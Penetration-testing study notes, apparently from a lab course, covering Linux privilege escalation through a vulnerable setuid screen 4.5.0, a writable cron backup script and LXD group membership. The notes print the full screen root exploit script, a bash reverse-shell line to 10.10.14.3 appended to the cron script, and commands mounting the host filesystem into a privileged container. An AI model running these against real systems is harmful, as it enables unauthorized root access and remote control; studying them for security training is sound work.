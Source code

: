 # 🍑 Service-based Privilege Escalation

## Vulnerable Services

Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer [Screen](https://linux.die.net/man/1/screen). Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

```shell-session
ElFelixi0@htb[/htb]$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

Here is the POC ->

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

## Cron Job Abuse

Cron jobs are  typically used for administrative tasks such as running backups, cleaning up directories, etc. The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified

&#x20;the cron file will be created in `/var/spool/cron` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

Certain applications create cron files in the `/etc/cron.d` directory and may be misconfigured to allow a non-root user to edit them.

let's look around the system for any writeable files or directories

```shell-session
ElFelixi0@htb[/htb]$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control
<SNIP>
/home/backupsvc/backup.sh
<SNIP>
```

`backup.sh` in the `/dmz-backups` directory is interesting and seems like it could be running on a cron job.

and if we look at the `/dmz-backups` directory, it shows what appears to be files created every three minutes.

Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`

We can confirm that a cron job is running using [pspy](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges

&#x20;`-pf` flag tells the tool to print commands and file system events and `-i 1000` tells it to scan [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) every 1000ms

```shell-session
./pspy64 -pf -i 1000
```

So the output of this would indeed confirm this script is used in a cronjob, so we can try and modify it and appen a bash one liner reverse shell in it ->

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
#add this -> 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

and after running a netcat  listerner, we can wait for our reverse shell to hit&#x20;

## Containers

{% hint style="info" %}
Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.
{% endhint %}

Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them.

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. To check our group we can use the `id` command ->

```shell-session
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

Now to abuse LXC or LXD We can either create our own container and transfer it to the target system or use an existing container. administrators often use templates that have little to no security that often don't have passwords ->

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

To exploit this we need to import this container as an image.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list
```

Then we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

And now we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
#or
container-user@nix02:~$ lxc exec privesc /bin/sh
root@nix02:~# ls -l /mnt/root                    
```
